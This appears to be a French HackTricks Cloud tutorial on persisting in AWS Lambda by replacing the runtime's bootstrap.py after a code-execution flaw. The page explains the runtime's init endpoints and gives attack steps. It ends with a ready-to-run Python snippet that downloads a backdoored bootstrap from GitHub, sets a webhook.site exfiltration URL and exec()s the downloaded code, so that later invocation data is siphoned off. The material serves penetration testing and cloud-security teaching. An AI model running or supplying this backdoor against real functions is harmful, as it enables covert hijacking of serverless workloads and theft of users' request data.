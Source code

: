 # AWS - Voler les Requêtes Lambda

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

## Flux Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** est un processus en dehors du conteneur qui **envoie** des **invocations** au processus **init**.
2. Le processus init écoute sur le port **9001** en exposant certains points de terminaison intéressants :
* **`/2018-06-01/runtime/invocation/next`** – obtenir le prochain événement d'invocation
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – retourner la réponse du gestionnaire pour l'invocation
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – retourner une erreur d'exécution
3. **bootstrap.py** a une boucle qui obtient des invocations du processus init et appelle le code des utilisateurs pour les traiter (**`/next`**).
4. Enfin, **bootstrap.py** envoie la **réponse** à init

Notez que bootstrap charge le code utilisateur en tant que module, donc toute exécution de code effectuée par le code des utilisateurs se produit en fait dans ce processus.

## Voler les Requêtes Lambda

Le but de cette attaque est de faire exécuter au code des utilisateurs un processus **`bootstrap.py`** malveillant à l'intérieur du processus **`bootstrap.py`** qui gère la requête vulnérable. De cette façon, le processus **bootstrap malveillant** commencera à **communiquer avec le processus init** pour gérer les requêtes tandis que le bootstrap **légitime** est **piégé** en exécutant le malveillant, donc il ne demandera pas de requêtes au processus init.&#x20;

C'est une tâche simple à réaliser car le code de l'utilisateur est exécuté par le processus **`bootstrap.py`** légitime. Ainsi, l'attaquant pourrait :

* **Envoyer un faux résultat de l'invocation actuelle au processus init**, afin qu'init pense que le processus bootstrap attend plus d'invocations.
* Une requête doit être envoyée à **`/${invoke-id}/response`**&#x20;
* L'invoke-id peut être obtenu à partir de la pile du processus **`bootstrap.py`** légitime en utilisant le module python [**inspect**](https://docs.python.org/3/library/inspect.html) (comme [proposé ici](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) ou simplement en le demandant à nouveau à **`/2018-06-01/runtime/invocation/next`** (comme [proposé ici](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Exécuter un **`bootstrap.py`** malveillant qui gérera les prochaines invocations
* Pour des raisons de furtivité, il est possible d'envoyer les paramètres des invocations lambda à un C2 contrôlé par les attaquants puis de gérer les requêtes comme d'habitude.
* Pour cette attaque, il suffit d'obtenir le code original de **`bootstrap.py`** du système ou de [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), d'ajouter le code malveillant et de l'exécuter à partir de l'invocation lambda actuelle.

### Étapes de l'Attaque

1. Trouver une vulnérabilité **RCE**.
2. Générer un **bootstrap** **malveillant** (par exemple [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Exécuter** le bootstrap malveillant.

Vous pouvez facilement effectuer ces actions en exécutant :
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Pour plus d'informations, consultez [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Références

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Apprenez et pratiquez AWS Hacking :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez GCP Hacking : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux dépôts GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

